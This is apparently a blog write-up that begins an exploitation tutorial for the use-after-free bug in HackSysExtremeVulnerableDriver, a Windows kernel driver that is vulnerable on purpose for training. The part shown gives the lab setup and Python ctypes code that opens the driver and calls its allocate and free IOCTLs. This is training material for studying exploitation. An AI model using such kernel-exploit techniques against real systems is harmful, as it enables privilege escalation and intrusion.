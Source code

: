 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver Use After Free
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


- 目录
{:toc #markdown-toc}

>[Analysis Environment]  
>guest machine: Windows 7 x86 sp0  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  



## 0x001 Test method

In this challenge, we have more CTL method, including AllocateUaFObject、UseUaFObject、FreeUaFObject、AllocateFakeObject.

We’ll try each of them just to make sure they work perfectly！

AllocateUaFObject method
```
import sys
from ctypes import *

kernel32 = windll.kernel32
psapi = windll.Psapi
ntdll = windll.ntdll

hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

if not hevDevice or hevDevice == -1:
   print "[-] Couldn't get Device Driver handle."
   sys.exit(0)

kernel32.DeviceIoControl(hevDevice, 0x222013, None, None, None, 0, byref(c_ulong()), None)
```

FreeUaFObject method
```
···
kernel32.DeviceIoControl(hevDevice, 0x22201B, None, None, None, 0, byref(c_ulong()), None)
···
```
